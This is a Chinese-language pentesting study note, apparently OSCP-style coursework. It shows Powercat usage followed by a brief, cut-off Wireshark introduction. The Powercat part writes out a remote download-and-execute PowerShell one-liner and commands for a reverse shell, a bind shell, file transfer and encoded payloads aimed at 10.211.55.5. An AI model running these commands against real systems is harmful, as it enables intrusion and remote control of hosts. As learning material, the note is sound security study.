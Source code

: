 Powercat 本质上是由besimorhino编写的Netcat的PowerShell版本。这是一个我们可以下载到Windows主机上的脚本，以利用PowerShell的优势并简化绑定/反向shell的创建。

在kali上 `apt install powercat` 就可以下载脚本，默认放在/usr/share/windows-resources/powercat，可以通过传输文件的方式传输到目标windows上。

### 运行

1、从kali上将文件传输过来，然后用 `. .\powercat.ps1` 运行。

2、 `iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')` 

### 传输文件

发送文件：  `powercat -c 10.211.55.5 -p 443 -i C:\Users\Offsec\powercat.ps1` 

### 反弹shell

```
powercat -c 10.211.55.5 -p 443 -e cmd.exe
```

### 绑定shell

```
powercat -l -p 443 -e cmd.exe
```

### 用Powercat生成独立的payload

生成反弹shell脚本：`powercat -c 10.211.55.5 -p 443 -e cmd.exe -g > reverseshell.ps1` 

运行脚本： `./reverseshell.ps1` 

生成反弹shell编码数据： `powercat -c 10.211.55.5 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1` 

运行编码： `powershell.exe -E 编码的数据` 

## Wireshark

Wireshark, 是学习网络协议、分析网络流量和调试网络服务的必备工具。

软件的处理过程：网络 -> 捕获过滤器 -> 捕获引擎 -> 显示过滤器 -> 最后的显示内容。

我们可以定义捕获过滤器去规定软件在捕获流量时的规则，也可以定义显示过滤器，将软件捕获的内容有选择性的显示出来。

### 启动

命令行： `sudo wireshark` 

图形化：菜单 -> Sniffing & Spoofing（嗅探/欺骗）-> wireshark

### Capture Filters 捕获过滤器

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1604300377404-bca000f9-4e8a-4b22-b1c3-a8f8140313d4.png)
